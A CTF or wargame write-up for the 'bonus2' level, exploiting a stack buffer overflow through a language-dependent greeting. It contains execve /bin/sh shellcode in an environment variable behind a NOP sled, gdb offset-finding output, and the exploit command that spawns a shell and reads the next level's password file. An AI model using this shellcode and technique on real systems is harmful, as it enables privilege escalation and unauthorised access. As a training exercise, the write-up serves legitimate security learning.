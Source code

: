 # Bonus 2

We're again using this [shellcode](https://shell-storm.org/shellcode/files/shellcode-811.html) that we insert in the env after a nope slide, we'll increment the pointer to it a bit to make our exploit more resilient, refer to `bonus0` for more.

```shell
export PWN=$(python -c 'print "\x90"*500 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
export LANG=nl
```

```shell
(gdb) r `python -c 'print 41 * "A"'` "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab"
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
0x38614137 in ?? ()

(gdb) p (void*)getenv("PWN")
$1 = (void *) 0xbffffd2c
```
Using [a pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) we found that the offset it segfaults at is 23.

```shell
./bonus2 `python -c 'print 40 * "A"'` `python -c 'print 23 * "B" + "\x6c\xfd\xff\xbf"'`
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBl���a
$ cat /home/user/bonus3/.pass
[redacted]
```

```shell
$ ./a.out
sizeof("Hyvää päivää ") = 19
sizeof("Goedemiddag! ") = 14
sizeof("Hello ") = 6;
```

You can do it too with LANG=fi, but you need 5 fewer bytes of padding, because the Finnish greeting is 5 chars longer (Unicode).
You can't do it with LANG=en, because it's not long enough. When I try to repeat the steps, with the generated pattern, it doesn't find the right offset.
